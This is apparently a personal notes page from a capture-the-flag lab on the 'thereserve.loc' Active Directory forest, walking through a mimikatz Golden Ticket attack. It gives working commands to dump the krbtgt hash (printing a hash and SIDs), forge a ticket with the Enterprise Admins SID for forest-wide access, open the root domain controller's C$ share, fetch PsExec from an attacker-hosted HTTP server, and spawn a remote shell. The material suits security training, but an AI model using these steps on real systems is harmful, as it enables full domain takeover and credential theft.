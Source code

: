[Connect to CORP.DC with Administration credentials](app://obsidian.md/Dumping%20secrets%20from%20CORPDC#Connect%20to%20RDP%20with%20the%20Administrator's%20credentials)

To carry out this attack you will need:

- The KRBTGT password hash.
- The SID of the child Domain Controller (CORPDC).
- The user account we want to impersonate (Administrator).
- Dump SID of **“Enterprise Admin”** of root.thereserve.loc.
	To make your attack more advanced, you can also inject the SID for the `Enterprise Admins` group so that the user you impersonate would have high privileges. This will give you access to all the machines in the entire Forest if we are successful in doing so.
## Dump the krbtgt Hash


1. On the VICTIME_MACHINE poweshell run mimikatz.exe.
    
2. Once in mimikatz run:
	`privilege::debug` 
	 Ensure this outputs privilege "20" ok.
    
3. ﻿`lsadump::lsa /inject /name:krbtgt`
	This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.
	
    ![[Golden Ticket Attack with mimikatz-20240608142406169.webp]]

4. Take note of what is outlined in red you'll need it to create the golden ticket.
	- S-1-5-21-170228521-1485475711-3199862024
	- krbtgt
	- 0c757a3445acb94a654554f3ac529ede


## Get the SID of the child Domain Controller (CORPDC)
On powershell run:

PS C:\Users\Administrator> `Get-ADComputer -Identity "CORPDC"`

![[Golden Ticket Attack with mimikatz-20240608151913994.webp]]


## Dump SID of **“Enterprise Admin”** of root.thereserve.loc

Run on powershell:
PS C:\Users\Administrator> `Get-ADGroup -Identity "Enterprise Admins" -Server rootdc.thereserve.loc`

![[Golden Ticket Attack with mimikatz-20240608152813146.webp]]


## Create the Golden ticket
And now, with all the required information, we can create our own Golden Ticket, which will be injected in the current session.
In mimikatz run:

 `kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt`

### Understanding the Command
- `kerberos::golden`: Indicates that you are creating a Golden Ticket.
- `/user:Administrator`: Specifies the user for whom the Golden Ticket is being created (in this case, the domain administrator).
- `/domain:corp.thereserve.loc`: Specifies the target domain.
- `/sid:S-1-5-21-170228521-1485475711-3199862024-1009`: Specifies the Security Identifier (SID) of the target domain.
- `/service:krbtgt`: Specifies the service account to use, which is typically `krbtgt` (Kerberos Ticket Granting Ticket).
- `/rc4:0c757a3445acb94a654554f3ac529ede`: Specifies the RC4 hash of the `krbtgt` account password.
- `/sids:S-1-5-21-1255581842-1300659601-3764024703-519`: Adds an additional SID to the ticket (useful for domain enumeration and access).
- `/ptt`: Indicates that the ticket should be injected into the current session (Pass-The-Ticket).

![[Golden Ticket Attack with mimikatz-20240608145025836.webp]]

## Use the Golden Ticket to access other machine

﻿In mimikatz run:﻿
﻿`misc::cmd`
﻿
﻿This will open a new command prompt with elevated privileges to all machines.
﻿
![[Golden Ticket Attack with mimikatz-20240608145512638.webp]]

## Test the access to rootdc.thereserve.loc

Run on the shell the following command:

C:\Users\Administrator>`dir \\rootdc.thereserve.loc\c$`

![[Golden Ticket Attack with mimikatz-20240608153405335.webp]]
Exit the shell.

## Get a shell on the ROOTDC

### Download pstools to the attacking machine
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

- Unzip the file.
- Start a python http server on you attacking machine in the directory where you unzipped pstools.
- Get psexec.exe from the powershell on the ROOTCD machine.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/PsExec.exe -o psexec.exe`

### PowerShell session in ROOTDC

You an also issue a command prompt in the ROOTDC through PSEXEC.

PS C:\Users\Administrator> `.\psexec.exe \\rootdc.thereserve.loc cmd.exe`

![[Golden Ticket Attack with mimikatz-20240614145454849.webp]]

![[Golden Ticket Attack with mimikatz-20240609134614662.webp]]

![[Golden Ticket Attack with mimikatz-20240609134803204.webp]]
![[Golden Ticket Attack with mimikatz-20240609134915452.webp]]

## Authenticate the flag on e-citizen

[[Flag Submission Process]]

